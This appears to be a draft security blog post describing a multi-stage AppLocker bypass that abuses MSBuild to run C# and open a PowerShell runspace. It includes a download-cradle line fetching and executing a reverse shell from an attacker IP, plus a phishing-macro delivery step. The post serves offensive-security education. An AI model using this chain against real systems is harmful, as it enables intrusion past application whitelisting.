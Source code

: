 ```yaml
---
layout: post
title: Multi-Stage MSBuild AppLocker Bypass
published: false
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png)

### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and despite simulated phishing campaigns and training there can never be complete assurance against credential divulgence or execution of malicious code.  So it is critically important that organisations implement a multi-layered "defence in depth" strategy. Application whitelisting is an important component of such a strategy, and is an effective means of ensuring that only _known good_ applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. The default AppLocker rules for Windows 10 are listed below.

![rules]({{ site.url }}/images/applocker-default-rules.png)

Since Powershell has gained recognition for being the attackers language of choice, many organisations are [increasingly] additionally blocking it. However, blocking powershell.exe is often not sufficient and there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with default rules and has also blocked Powershell.

![rules]({{ site.url }}/images/applocker-rules.png)

We can pass a ".csproj" (Visual Studio .NET C# Project file) to MSBuild and have it execute C#, in order to instantiate a Powershell runspace using System.Management.Automation.dll. The powashell.csproj file below by Casey Smith builds upon Jared Atkinson's And Justin Warner's work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

We will use this runspace to download and execute our reverse shell using a PowerShell 3.0+ download cradle:

```pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");```

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. But now we need a means of delivering the project file and executing MSBuild. The macro below will download the csproj file to disk In order for the user to execute the macro the document needs to be dressed appropriately. (John Lambert...)

https://pbs.twimg.com/media/DWHHdvJV4AAvl22.jpg


<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>
